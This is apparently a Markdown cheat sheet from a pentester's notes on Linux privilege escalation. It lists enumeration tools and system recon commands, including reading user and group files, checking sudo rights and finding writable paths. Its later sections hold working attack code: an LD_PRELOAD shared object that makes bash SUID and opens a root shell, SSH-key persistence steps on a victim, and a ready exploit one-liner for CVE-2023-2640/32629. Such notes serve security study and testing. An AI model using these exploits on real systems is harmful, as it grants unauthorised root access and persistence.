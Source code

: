 ```yaml
---
title: Linux
---
```


# Linux Privilege Escalation
## Enum tools
- [Lin Peas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [pspy](https://github.com/DominicBreuker/pspy)
- [Lin Enum](https://github.com/rebootuser/LinEnum)
- [RustScan](https://github.com/RustScan/RustScan)

## Resources
- [gtfobins](https://gtfobins.github.io/gtfobins/ssh/)
- [hacktricks (linux)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses)
- [hacktricks (windows)](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

## Enum
### Basics

#### Current logged user
```bash
whoami
```

#### Current user groups
```bash
id
```

#### Machine's domain name                                 
```bash
hostname
```

#### OS version
```bash
cat /etc/os-release
```

#### Kernel version
```bash
uname -a
```
```bash
cat /proc/version
```

#### Additional host info
```bash
lscpu
```

#### Network interfaces
```bash
ifconfig
```
```bash
ip addr
```

#### Routing table
```bash
netstat -rn
```
```bash
route
```

#### Arp table (other hosts)
```bash
arp -a
```

#### Drives and shares
```bash
lkblk
```

#### Mounts
```bash
cat /etc/fstab
```

#### Mounted file systems
```bash
df -h
```

#### Unmounted file systems
```bash
cat /etc/fstab | grep -v "#" | column -t
```

#### What can we run as root?
```bash
sudo -l
```

#### Is path misconfigured?
```bash
echo $PATH
```

#### Environment variables
```bash
env
```

#### Available shells
```bash
cat /etc/shells
```

#### Existing users
```bash
cat /etc/passwd
```

#### Existing groups
```bash
cat /etc/group
```

#### Which users are in the sudo group?
```bash
getent group sudo
```

#### Writable directories
```bash
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
```

#### Writable files
```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

## Things to look for
- Commands that contain credentials like `mysql -ptest123` get leaked in `ps`, use `pspy`
- Search for hashes/credentials, often in backups or configs

## Misc notes

### .so loading
```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("chmod u+s /bin/bash");
    system("/bin/bash -i");
}
```

```bash
gcc -fPIC -shared -o extension.so extension.c -nostartfiles
```

```bash
bash -p
```

### ssh private key

```bash
# victim
ssh-keygen -t rsa -b 4096
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys

# Host
## copy key to host
chmod 600 /path/to/id_rsa_custom
ssh -i /path/to/id_rsa_custom user@target_machine_ip
```

## CVEs

### CVE-2023-2640 | CVE-2023-32629

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
# Or
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"id\")'"
```
